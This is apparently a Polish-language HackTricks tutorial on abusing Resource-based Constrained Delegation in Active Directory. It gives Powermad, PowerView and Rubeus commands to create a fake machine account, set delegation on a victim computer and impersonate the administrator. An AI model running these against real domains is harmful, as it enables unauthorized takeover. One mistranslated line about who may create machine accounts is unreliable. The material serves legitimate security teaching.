# Resource-based Constrained Delegation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## Basics of Resource-based Constrained Delegation

To jest podobne do podstawowej [Constrained Delegation](constrained-delegation.md), ale **zamiast** nadawania uprawnień do **obiektu**, aby **podszywać się pod dowolnego użytkownika w stosunku do usługi**. Resource-based Constrained Delegation **ustawia** w **obiecie, kto może podszywać się pod dowolnego użytkownika w stosunku do niego**.

W tym przypadku, ograniczony obiekt będzie miał atrybut o nazwie _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ z nazwą użytkownika, który może podszywać się pod dowolnego innego użytkownika w stosunku do niego.

Inna ważna różnica między tym Constrained Delegation a innymi delegacjami polega na tym, że każdy użytkownik z **uprawnieniami do zapisu nad kontem maszyny** (_GenericAll/GenericWrite/WriteDacl/WriteProperty/etc_) może ustawić _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ (W innych formach Delegacji potrzebne były uprawnienia administratora domeny).

### New Concepts

W Constrained Delegation powiedziano, że flaga **`TrustedToAuthForDelegation`** w wartości _userAccountControl_ użytkownika jest potrzebna do wykonania **S4U2Self.** Ale to nie jest całkowita prawda.\
Rzeczywistość jest taka, że nawet bez tej wartości, możesz wykonać **S4U2Self** w stosunku do dowolnego użytkownika, jeśli jesteś **usługą** (masz SPN), ale jeśli **masz `TrustedToAuthForDelegation`**, zwrócone TGS będzie **Forwardable**, a jeśli **nie masz** tej flagi, zwrócone TGS **nie będzie** **Forwardable**.

Jednakże, jeśli **TGS** użyte w **S4U2Proxy** **NIE jest Forwardable**, próba nadużycia **podstawowej Constrained Delegation** **nie zadziała**. Ale jeśli próbujesz wykorzystać **Resource-Based Constrained Delegation, to zadziała** (to nie jest luka, to funkcja, najwyraźniej).

### Attack structure

> Jeśli masz **uprawnienia do zapisu równoważne** nad kontem **Komputera**, możesz uzyskać **uprzywilejowany dostęp** do tej maszyny.

Załóżmy, że atakujący ma już **uprawnienia do zapisu równoważne nad komputerem ofiary**.

1. Atakujący **kompromituje** konto, które ma **SPN** lub **tworzy jedno** (“Usługa A”). Zauważ, że **każdy** _Użytkownik Administrator_ bez żadnych innych specjalnych uprawnień może **utworzyć** do 10 **obiektów Komputera (**_**MachineAccountQuota**_**)** i ustawić im **SPN**. Więc atakujący może po prostu utworzyć obiekt Komputera i ustawić SPN.
2. Atakujący **nadużywa swojego uprawnienia DO ZAPISU** nad komputerem ofiary (Usługa B), aby skonfigurować **resource-based constrained delegation, aby umożliwić Usłudze A podszywanie się pod dowolnego użytkownika** w stosunku do tego komputera ofiary (Usługa B).
3. Atakujący używa Rubeus, aby przeprowadzić **pełny atak S4U** (S4U2Self i S4U2Proxy) z Usługi A do Usługi B dla użytkownika **z uprzywilejowanym dostępem do Usługi B**.
1. S4U2Self (z konta SPN, które zostało skompromitowane/stworzone): Prosi o **TGS Administratora dla mnie** (Nie Forwardable).
2. S4U2Proxy: Używa **nie Forwardable TGS** z poprzedniego kroku, aby poprosić o **TGS** od **Administratora** do **komputera ofiary**.
3. Nawet jeśli używasz nie Forwardable TGS, ponieważ wykorzystujesz Resource-based constrained delegation, to zadziała.
4. Atakujący może **przekazać bilet** i **podszyć się** pod użytkownika, aby uzyskać **dostęp do Usługi B ofiary**.

Aby sprawdzić _**MachineAccountQuota**_ domeny, możesz użyć:
```powershell
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select MachineAccountQuota
```
## Atak

### Tworzenie obiektu komputera

Możesz stworzyć obiekt komputera w obrębie domeny używając [powermad](https://github.com/Kevin-Robertson/Powermad)**:**
```powershell
import-module powermad
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# Check if created
Get-DomainComputer SERVICEA
```
### Konfigurowanie R**esource-based Constrained Delegation**

**Używając modułu PowerShell activedirectory**
```powershell
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount SERVICEA$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it worked
```
**Używanie powerview**
```powershell
$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```
### Wykonywanie pełnego ataku S4U

Przede wszystkim stworzyliśmy nowy obiekt Komputera z hasłem `123456`, więc potrzebujemy hasha tego hasła:
```bash
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```
To będzie drukować hashe RC4 i AES dla tego konta.\
Teraz atak może być przeprowadzony:
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:domain.local /ptt
```
Możesz wygenerować więcej biletów, pytając tylko raz, używając parametru `/altservice` w Rubeus:
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```
{% hint style="danger" %}
Zauważ, że użytkownicy mają atrybut o nazwie "**Nie można delegować**". Jeśli użytkownik ma ten atrybut ustawiony na True, nie będziesz w stanie go podszyć. Ta właściwość jest widoczna w BloodHound.
{% endhint %}

### Dostęp

Ostatnia linia poleceń wykona **pełny atak S4U i wstrzyknie TGS** z Administratora do hosta ofiary w **pamięci**.\
W tym przykładzie zażądano TGS dla usługi **CIFS** od Administratora, więc będziesz mógł uzyskać dostęp do **C$**:
```bash
ls \\victim.domain.local\C$
```
### Nadużywanie różnych biletów serwisowych

Dowiedz się o [**dostępnych biletach serwisowych tutaj**](silver-ticket.md#available-services).

## Błędy Kerberos

* **`KDC_ERR_ETYPE_NOTSUPP`**: Oznacza to, że Kerberos jest skonfigurowany tak, aby nie używać DES ani RC4, a Ty dostarczasz tylko hasz RC4. Podaj Rubeus przynajmniej hasz AES256 (lub po prostu podaj mu hasze rc4, aes128 i aes256). Przykład: `[Rubeus.Program]::MainString("s4u /user:FAKECOMPUTER /aes256:CC648CF0F809EE1AA25C52E963AC0487E87AC32B1F71ACC5304C73BF566268DA /aes128:5FC3D06ED6E8EA2C9BB9CC301EA37AD4 /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:Administrator /msdsspn:CIFS/M3DC.M3C.LOCAL /ptt".split())`
* **`KRB_AP_ERR_SKEW`**: Oznacza to, że czas bieżącego komputera różni się od czasu DC i Kerberos nie działa poprawnie.
* **`preauth_failed`**: Oznacza to, że podana nazwa użytkownika + hasze nie działają przy logowaniu. Mogłeś zapomnieć wstawić "$" w nazwie użytkownika podczas generowania haszy (`.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local`)
* **`KDC_ERR_BADOPTION`**: Może to oznaczać:
* Użytkownik, którego próbujesz naśladować, nie ma dostępu do żądanej usługi (ponieważ nie możesz go naśladować lub nie ma wystarczających uprawnień)
* Żądana usługa nie istnieje (jeśli prosisz o bilet na winrm, ale winrm nie działa)
* Utworzony fakecomputer stracił swoje uprawnienia do podatnego serwera i musisz je przywrócić.

## Odniesienia

* [https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/](https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object)
* [https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
